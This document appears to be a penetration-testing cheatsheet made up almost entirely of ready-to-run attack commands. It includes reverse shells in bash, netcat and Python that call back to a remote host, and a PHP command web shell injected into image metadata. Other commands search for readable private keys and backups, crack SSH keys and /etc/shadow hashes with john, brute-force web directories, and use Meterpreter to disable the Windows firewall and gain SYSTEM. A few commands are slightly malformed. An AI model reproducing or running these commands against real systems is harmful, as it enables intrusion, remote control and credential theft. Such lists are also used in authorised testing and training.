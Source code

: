## CHEATSHEET
### Linux

Find user owned files
~~~
find / -user $(whoami) 2>/dev/null | egrep -v '(/proc)'
~~~

Find writeable files
~~~
find / -writeable 2>/dev/null | egrep -v '(/proc|/run|/dev)'
~~~

Find readable files with following extensions
~~~
find / -readable 2>/dev/null | egrep '(\.key$|\.pub$|\.bak$|\.crt$|\.ca$|^id_rsa)'
~~~

Find files that aren't installed by the system
~~~
for i in $(ls $(pwd)/*); do dpkg --search $i 1>/dev/null; done
~~~

Bash reverse shell
~~~
bash -i >& /dev/tcp/10.10.10.10/444 0>&1
~~~

Netcat reverse shell
~~~
nc -e /bin/bash 10.10.10.10 444
nc -e /bin.sh 10.10.10.10 444
~~~

Python reverse shell
~~~
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
~~~

Upgrade shell with Python
~~~
python3 -c 'import pty; pty.spawn("/bin/bash")'
CTRL + Z
stty raw -echo
F+G+ENTER
export TERM=xterm
~~~

Fix terminal
~~~
stty -a 34 cols 136
stty rows
~~~

Inject PHP into image
~~~
exiv2 -c'A "<?php system($_REQUEST['cmd']);?>"!' backdoor.jpeg
exiftool “-comment<=back.php” back.png
~~~

Cracking SSH
~~~
ssh2john id_rsa > id_rsa.hash
john --wordlist=wordlist.txt id_rsa.hash
~~~

Cracking /etc/shadow
~~~
unshadow passwd.hashes shadow.hashes > unshadowed_passwords.txt
john --wordlist=wordlist.txt passwords.txt
~~~

WFUZZ
~~~
wfuzz  -w /usr/share/wordlists/dirb/common.txt --hc 404,500 -u http://10.10.10.168:8080/
~~~

Gobuster
~~~
gobuster dir -u http://10.10.10.170/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .php
gobuster vhost -u http://10.10.10.170/ -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-110000.txt
~~~

**Windows**

Metasploit windows meterpreter session
~~~
execute -f cmd.exe -c -H
shell
netsh firewall show opmode
netsh advfirewall set allprofiles state off
getsystem
~~~
